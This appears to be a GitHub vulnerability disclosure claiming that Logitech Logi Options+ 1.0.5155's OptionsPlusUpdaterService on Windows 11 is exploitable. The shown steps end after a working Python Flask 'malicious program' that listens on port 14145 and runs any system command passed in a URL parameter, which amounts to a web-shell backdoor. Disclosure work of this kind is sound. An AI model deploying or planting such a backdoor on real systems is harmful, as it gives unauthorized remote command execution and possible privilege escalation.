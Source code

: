 # windows Logi OptionsPlus OptionsPlusUpdaterService is Vulnerable Services

test on windows 11 22000.1098   Logi Options+ 1.0.5155

#Vulnerability reproduction

The first step：open services.msc find OptionsPlusUpdaterService
![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic1.png)

Step 2：Prepare a malicious program
![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic2.png)
  from flask import Flask, request
  import os

  app = Flask(__name__)

  @app.route('/')
  def hello_world():
      r = request.args.getlist('cmd')  #Reception? cmd= parameter
      a=os.popen(r[0])  #Execute system commands
      l = a.read()
      return l  #return

  if __name__ == '__main__':
      app.run(host='0.0.0.0', port=14145, debug=True)  #Listen HTTP port 14145
      
I was useing python3 flask write a malicious exe .It can listenHTTP port 14145 and execute system commands.
